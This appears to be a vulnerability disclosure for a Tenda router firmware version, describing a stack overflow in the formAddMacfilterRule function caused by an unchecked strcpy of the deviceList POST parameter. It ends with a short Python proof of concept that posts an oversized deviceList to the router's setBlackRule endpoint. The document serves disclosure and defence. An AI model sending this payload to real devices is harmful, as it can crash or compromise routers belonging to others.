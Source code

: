 ## Firmware information

- Manufacturer's address: https://www.tendacn.com
- Firmware download address: https://www.tendacn.com/download/detail-3187.html

## Affected version

US_A15V1.0RTL_V15.13.07.13_multi_TD01

## Vulnerability details

The Tenda US_A15V1.0RTL_V15.13.07.13_multi_TD01 firmware has a stack overflow vulnerability in the `formAddMacfilterRule` function. The `rule` variable receives the `deviceList` parameter from a POST request. However, since the user can control the input of  `deviceList`, in function `parse_macfilter_rule`, the statement `strcpy(dest_rule->name, source_rule);` can cause a buffer overflow vulnerability. 

![image-20240318013339259](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318013339259.png)

![image-20240318013413556](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318013413556.png)

![image-20240318013601584](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318013601584.png)

![image-20240318013535170](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318013535170.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/setBlackRule'

payload = {
    'deviceList': 'a' * 0x400 + '\r' + 'ff:ff:ff:ff:ff:ff'
    # 'mac': 'a' * 0x1000
}

r = requests.post(url=url, data=payload)

print(r.content)
```

![image-20240318013730640](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318013730640.png)

